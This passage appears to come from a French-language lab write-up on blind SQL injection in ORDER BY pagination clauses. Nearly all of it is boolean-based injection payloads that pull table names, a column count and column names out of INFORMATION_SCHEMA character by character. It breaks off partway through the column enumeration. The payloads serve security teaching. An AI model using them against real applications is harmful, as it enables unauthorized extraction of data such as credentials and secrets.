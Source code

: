 ```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'sql_injection_in_pagination_clauses_database' LIMIT 1 OFFSET 0),2,1))=ORD('s')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'sql_injection_in_pagination_clauses_database' LIMIT 1 OFFSET 0),3,1))=ORD('e')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

Le nom de la première table est "users".

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'sql_injection_in_pagination_clauses_database' LIMIT 1 OFFSET 1),1,1))=ORD('s')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'sql_injection_in_pagination_clauses_database' LIMIT 1 OFFSET 1),2,1))=ORD('e')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'sql_injection_in_pagination_clauses_database' LIMIT 1 OFFSET 1),3,1))=ORD('c')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

Le nom de la seconde table est "secrets".

Récupération du nombre de colonnes de la table "secrets" :&#x20;

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT COUNT(column_name) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets'),1,1))=ORD('3')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

La table "secrets" possède trois colonnes.

Récupération des noms des colonnes :

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 1 OFFSET 0),1,1))=ORD('i')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 1 OFFSET 0),2,1))=ORD('d')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

La première colonne se nomme "id".

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 1 OFFSET 1),1,1))=ORD('u')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```
